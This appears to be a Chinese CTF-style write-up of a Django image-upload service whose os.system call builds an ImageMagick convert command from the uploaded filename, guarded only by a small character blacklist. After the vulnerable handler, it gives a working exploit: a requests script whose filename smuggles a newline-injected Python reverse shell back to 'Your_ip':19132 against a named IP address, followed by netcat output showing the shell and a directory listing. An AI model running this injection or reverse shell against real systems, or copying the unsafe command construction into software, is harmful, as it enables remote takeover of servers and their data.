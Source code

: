 ```python
def Do_upload(request): #文件上传, 格式转换
    black_list = ['`',';','&','|',"PS",'>',"<"]
    #return HttpResponse(os.path)
    if request.method == 'POST':
        ret = {'status': False, 'data': None, 'error': None}
        user = request.POST.get('user')
        img = request.FILES.get('img')
        for i in black_list:
            if i in img.name:
                return HttpResponse("你是魔鬼吗？")
        f = open(os.path.join('upfile', img.name), 'wb')
        #return HttpResponse(os.path)
        for chunk in img.chunks(chunk_size=1024):
            if b"%!PS" in chunk:
                 return HttpResponse("你是个大魔鬼！")
            f.write(chunk)
        f.close()
        ret['status'] = True
        ret['data'] = os.path.join('upfile', 'smaller_'+img.name)
        command = "convert -resize 200x100 \`pwd\`/upfile/"+img.name+"  \`pwd\`/upfile/smaller_"+img.name+";rm \`pwd\`/upfile/"+img.name
        #os.system("echo "+command+"> /tmp/123")
        os.system(command)
        return HttpResponse(json.dumps(ret))
        # except Exception as e:
        #     ret['error'] = e
        # finally:
        #     f.close()
        #     return HttpResponse(json.dumps(ret))
    else:
        return HttpResponse('')
```

本意是利用imagemagic的洞getshell的, 但是我太懒了, 没有换服务器里面的版本, 所以就只能用文件名导致的命令注入了, 这里有个坑, nginx会把 "/" 后面的作为文件名解析, 所以需要绕过 "/", exp:

```python
import requests

files = {
    "img": ("asd\npython -c \"import socket,subprocess,os\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(('Your_ip',19132))\nos.dup2(s.fileno(),0)\nos.dup2(s.fileno(),1)\nos.dup2(s.fileno(),2)\np=subprocess.call([chr(47)+'bin'+chr(47)+'sh','-i'])\"", "asd")
}

res = requests.post("http://212.64.89.186/upload/", files=files)
print(res.text)
```

```
$ nc -lvvp 19132
Listening on [0.0.0.0] (family 0, port 19132)
Connection from 212.64.89.186 38538 received!
/bin/sh: 0: can't access tty; job control turned off
$ ls
FlightTicket
a.txt
aaab.txt
article.db
booksystem
flightdb.sqlite3
index.html
index.html.1
index.html.2
manage.py
```